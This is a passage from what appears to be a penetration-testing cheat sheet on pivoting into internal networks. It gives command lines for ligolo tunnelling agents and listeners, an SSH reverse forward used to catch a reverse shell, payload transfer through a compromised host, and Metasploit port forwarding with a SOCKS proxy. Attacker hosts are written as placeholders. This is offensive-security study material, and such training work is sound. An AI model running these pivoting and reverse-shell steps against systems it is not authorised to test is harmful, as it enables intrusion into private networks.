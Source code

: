   3. On the target:

     ```bash
     ./agent -connect [TUNIP]:11601 -ignore-cert
     ```

  4. On the ligolo server:

     ```
     session
     # Select the session
     start 
     ```

  5. On the legolo server, add the listener

     ```bash
     listener_add --addr [INTRANET_IP]:4444 --to [KALI_IP]:4444 --tcp 
     ```

  6. Open listener

     ```bash
     listen 4444 	# netcat
     httpserv 4444	# hhtp 
     ```

  7. Request payload on `<PivotIntranetIP>:4444`

- **SSH** (e.g. for a rev shell)

  7. Generate a payload with `PayloadPort` and `IntranetIP`

  8. Transfer the payload from Kali -> comprised host -> private host

  9. On Kali, open a listener on `ListenPort`

  10. Connect to the Pivot and forward the connection from the pivot to you 

     ```bash
     ssh -R <PivotIntranetIP>:<PayloadPort>:0.0.0.0:<ListenPort> <User>@<IP> -vN
     ```

- **Metasploit**
	- Local Forwarding
	    - `portfwd add -l [KALI_PORT] -p [INTERNAL_PORT] -r [INTERNAL_IP]`
	    - `[KALI_IP]:[KALI_PORT]` → Forwarded To `[INTERNAL_IP]:[INTERNAL_PORT]`
	- Remote Forwarding
	    - `portfwd add -R -l [KALI_PORT] -p [PIVOT_PORT] -L [PIVOT_IP]`
	    - `[PIVOT_INTRANET_IP]:[PIVOT_PORT]` → Forwarded To `[KALI_IP]:[KALI_PORT]`
	    - Intranet Shells / File Transfers (Non-SMB) / Multiple Pivoting
	- Dynamic Forwarding
	    - `run autoroute -s [INTERNAL_CIDR]` -> `backgroud`
	    - `use auxiliary/server/socks_proxy`
	    - `set version 5` → `set SRVPORT 9050` -> `run`
	    - Network Access                → `sudo proxychains -q [CMD]`
